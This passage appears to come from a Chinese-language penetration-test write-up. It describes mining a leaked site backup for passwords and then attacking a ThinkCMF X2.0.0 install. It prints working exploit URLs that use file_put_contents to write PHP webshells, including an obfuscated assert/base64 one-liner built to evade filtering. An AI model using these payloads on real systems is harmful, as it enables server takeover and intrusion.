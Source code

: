     - http://vuln_attack:80/license.txt

+ 其他收集
  **通过下载`www.rar`文件获得网站备份源码获得的信息**
    - 寻找密码
        - `grep -i -r "pwd' => '" ./` 
            结果：
            ![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-08-19/0.jpg)
            * sxxxx3
            * rxxxx3
        - `grep -i -r "pass' => '" ./` 结果：无
        - `grep -i -r "password' => '" ./` 结果：无

## 中·渗透打入

### ThinkCMFx2 0day Get Webshell

- 已知该系统业务为ThinkCMF，且通过泄露的源码文件中得知版本为x2.0.0

    `define("SIMPLEWIND_CMF_VERSION", 'X2.0.0');`

    使用ThinkCMF的GetWebshell的Exp打一波（结果：未成功）

    ![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-08-19/1.png)

    访问`r.php`是404的：

    ![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-08-19/2.jpg)

    但在本地搭建测试的时候是可以写入的（**Exploit**:`/index.php?xxx=file_put_contents('r.php','<?php%20eval($_REQUEST[r]);')`）：

    ![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-08-19/3.jpg)

    **思考：** a.是否可以写入但被删除 b.exp是否被拦截

    - 修改exp为`/index.php?xxx=file_put_contents('1.txt','123')`：写入`1.txt`内容为`123`

      ![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-08-19/4.jpg)

      **结果：** 上传成功访问存在，可利用exp写文件

    - 修改exp为`/index.php?xxx=file_put_contents('1.php','123')`：写入`1.php`内容为`123`

      ![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-08-19/5.jpg)

      **结果：** 上传成功访问存在，可利用exp写PHP文件

    - 修改exp为`/index.php?xxx=file_put_contents('1.php','<?php+$a="assert";$a(base64_decode(@$_REQUEST[k]));?>')`

      简单的写了一个绕过的PHP一句话脚本木马：

      `<?php $a="assert";$a(base64_decode(@$_REQUEST[k]));?>`

      **结果：** 上传成功访问存在，Webshell拿下
